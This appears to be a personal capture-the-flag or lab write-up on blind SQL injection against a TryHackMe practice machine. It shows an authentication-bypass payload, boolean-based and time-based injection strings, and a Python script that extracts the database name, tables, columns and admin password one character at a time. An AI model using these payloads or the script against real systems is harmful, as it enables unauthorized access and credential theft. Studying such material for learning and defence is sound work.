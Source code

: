 ## Blind SQLi

Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successfully enumerate a whole database.


### Authentication Bypass

Login forms that are connected to a database of users are often developed in such a way that the web application isn't interested in the content of the username and password but more in whether the two make a matching pair in the users table. In basic terms, the web application is asking the database, "Do you have a user with the username bob and the password bob123?" the database replies with either yes or no (true/false) and, depending on that answer, dictates whether the web application lets you proceed or not. 

### Practical:

Level Two of the SQL Injection examples shows this exact example. We can see in the box labelled "SQL Query" that the query to the database is the following:


`select * from users where username='%username%' and password='%password%' LIMIT 1;`


To make this into a query that always returns as true, we can enter the following into the password field:


`' OR 1=1;--`


Which turns the SQL query into the following:


`select * from users where username='' and password='' OR 1=1;`


Because 1=1 is a true statement and we've used an OR operator, this will always cause the query to return as true, which satisfies the web applications logic that the database found a valid username/password combination and that access should be allowed.

![alt text](image-21.png)

## Boolean Based

Boolean-based SQL Injection refers to the response we receive from our injection attempts, which could be a true/false, yes/no, on/off, 1/0 or any response that can only have two outcomes. That outcome confirms that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, with just these two responses, it's possible to enumerate a whole database structure and contents.


### Practical:

On level three of the SQL Injection Examples Machine, you're presented with a mock browser with the following URL:

`https://website.thm/checkuser?username=admin`


The browser body contains  `{"taken":true}`. This API endpoint replicates a common feature found on many signup forms, which checks whether a username has already been registered to prompt the user to choose a different username. Because the taken value is set to true, we can assume the username admin is already registered. We can confirm this by changing the username in the mock browser's address bar from admin to admin123, and upon pressing enter, you'll see the value taken has now changed to false.


The SQL query that is processed looks like the following:


`select * from users where username = '%username%' LIMIT 1;`


The only input we have control over is the username in the query string, and we'll have to use this to perform our SQL injection. Keeping the username as admin123, we can start appending to this to try and make the database confirm true things, changing the state of the taken field from false to true.

Our first task is to discover the database name. We can do this by using the built-in database() method and then using the like operator to try and find results that will return a true status.

`admin123' UNION SELECT 1,2,3 where database() like '%';--`


We get a true response because, in the like operator, we just have the value of %, which will match anything as it's the wildcard value. If we change the wildcard operator to `a%`, you'll see the response goes back to false, which confirms that the database name does not begin with the letter a. We can cycle through all the letters, numbers and characters such as - and _ until we discover a match. If you send the below as the username value, you'll receive a true response that confirms the database name begins with the letter `s`.

To automatic the process, I used the following script:

```python
import requests
import string

url = "https://10-10-232-209.p.thmlabs.com/run"
chars = string.ascii_letters + string.digits + "_"
currentfound = ""

while True:
    found_char = False  
    for char in chars:
        payload = (
            f"level=3&sql=select * from users where username = 'nglong05' "
            f"union select null, null, null where database() like '{currentfound + char}%';--"
        )
        response = requests.post(url, data=payload)

        if '"message":"true"' in response.text:
            currentfound += char  
            print(f"Current database name: {currentfound}")
            found_char = True
            break  

    if not found_char:
        print(f"Final database name: {currentfound}")
        break
```

We got the database name: **sqli_three**, now that we need to get the table name, simply change the payload as:

```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"union select null, null, null FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like '{currentfound + char}%';--"
)
```
We got the table **users**, repeat the process to find the column name:
```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"union select null, null, null FROM information_schema.COLUMNS "
    f"WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like '{currentfound + char}%';--"
)
```
Once I've found the column named id, I continued to find other columns
```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"union select null, null, null FROM information_schema.COLUMNS "
    f"WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like '{currentfound + char}%' and COLUMN_NAME !='id';--"
)
``` 
Repeating this process three times will enable you to discover the columns' id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username, which you can use the payload below:

```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"UNION SELECT 1,2,3 from users where username like '{currentfound + char}%"
)
``` 
Once you've cycled through all the characters, you will confirm the existence of the username admin. Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:

```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"UNION SELECT 1,2,3 from users where username='admin' and password like '{currentfound + char}%"
)
``` 
![alt text](image-22.png)

## Time-Based


A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as SLEEP(x) alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 


So, for example, when trying to establish the number of columns in a table, you would use the following query:


`admin123' UNION SELECT SLEEP(5);--`


If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:


`admin123' UNION SELECT SLEEP(5),2;--`


This payload should have produced a 5-second delay, confirming the successful execution of the UNION statement and that there are two columns.


You can now repeat the enumeration process from the Boolean-based SQL injection, adding the SLEEP() method to the UNION SELECT statement.

If you're struggling to find the table name, the below query should help you on your way:


`referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--`

![alt text](image-23.png)